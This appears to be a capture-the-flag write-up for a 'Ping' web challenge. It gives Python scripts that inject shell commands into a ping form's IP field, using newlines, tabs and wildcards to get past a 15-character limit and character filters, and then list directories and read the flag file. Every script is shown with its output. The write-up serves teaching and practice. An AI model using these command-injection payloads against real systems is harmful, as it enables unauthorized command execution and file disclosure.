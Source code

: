 # Ping #

## Intended Solution ##

### Restrict ###
* 15 Characters limit
* Blocked some system command
* Blocked some special characters

### Payload ###
* List directory
```python
import requests
payload = "\nls"
print requests.post("http://404.polyu.work:12337/Ping/", data={'ip':payload}).text
# index.php
```

* List parent directory
```python
import requests
payload = "\nls\t../"
print requests.post("http://404.polyu.work:12337/Ping/", data={'ip':payload}).text
# Ping comehereifyouwanttheflag error.log html
```

* List `../comehereifyouwanttheflag` directory
```python
import requests
payload = "\nls\t../c*"
print requests.post("http://404.polyu.work:12337/Ping/", data={'ip':payload}).text
# youneverreadthis
```

* Read `../comehereifyouwanttheflag/youneverreadthis`
```python
import requests
#payload = "\n/b*/ca?\t../c*/y*" <- this payload too long
payload = "\n/b*/ca?\t../*/*"
print requests.post("http://404.polyu.work:12337/Ping/", data={'ip':payload}).text
# flag{omg_you_finally_break_it}
```